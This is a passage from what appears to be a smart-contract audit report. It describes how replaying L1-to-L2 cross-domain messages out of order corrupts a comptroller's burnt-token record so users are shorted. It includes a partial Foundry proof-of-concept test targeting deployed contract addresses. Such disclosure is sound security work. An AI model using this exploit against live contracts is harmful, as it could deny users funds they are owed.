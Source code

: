 ```solidity
// Store the new total amount of tokens burnt on L1 and claimed against on L2.
l1BurntAmountOf[l1Depositor] = totalAmountBurntOnL1;
```

The last time it was claimed was before these two transactions, so `totalAmountClaimed < X`, and all checks pass. When the second transaction is called, `l1BurntAmountOf` is set to `X + N`. Then, when the first transaction is called, `l1BurntAmountOf` is set to `X`.

In the Bedrock system, this call to the Cross Domain Messenger to replay old transactions in the wrong order can be performed by anyone, so a malicious user could perform this action on behalf of our innocent user.

The result is that, when the user calls `claim()` or `claimAll()`, they will only receive `X` tokens, instead of the `X + N` they are entitled to.

**Proof of Concept**

Here is a test that can be dropped into the repo to reproduce this behavior. You can run it with `forge test -vvv --match-test testOutOfSyncBrickedFunds`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/L1Comptroller.sol";
import "src/L2Comptroller.sol";
import {IERC20Burnable} from "../src/interfaces/IERC20Burnable.sol";
import {ICrossDomainMessenger} from "../src/interfaces/ICrossDomainMessenger.sol";
import {IPoolLogic} from "../src/interfaces/IPoolLogic.sol";
import {IERC20Upgradeable} from "@openzeppelin/contracts-upgradeable/interfaces/IERC20Upgradeable.sol";

library AddressAliasHelper {
    uint160 constant offset = uint160(0x1111000000000000000000000000000000001111);

    function applyL1ToL2Alias(address l1Address) internal pure returns (address l2Address) {
        unchecked {
            l2Address = address(uint160(l1Address) + offset);
        }
    }
}

interface IMTy is IERC20Upgradeable {
    function totalSupply() external view returns (uint);
}

contract OutofSyncBrickedFundsTest is Test {
    L2Comptroller l2c = L2Comptroller(0x3509816328cf50Fed7631c2F5C9a18c75cd601F0);
    ICrossDomainMessenger l2xdm = ICrossDomainMessenger(0x4200000000000000000000000000000000000007);
    IMTy mty = IMTy(0x0F6eAe52ae1f94Bc759ed72B201A2fDb14891485);

    function testOutOfSyncBrickedFunds() public {
        vm.createSelectFork("INSERT_RPC_URL");

        // simulate a situation where L2Comptroller has no funds & is paused
        address user = makeAddr("user");
        uint bal = mty.balanceOf(address(l2c));
        vm.prank(address(l2c));
        mty.transfer(address(1), bal);
        address owner = l2c.owner();
        vm.prank(owner);
        l2c.pause();

        // send two txs, one for 1e18 totalBurned and one for 2e18 totalBurned
```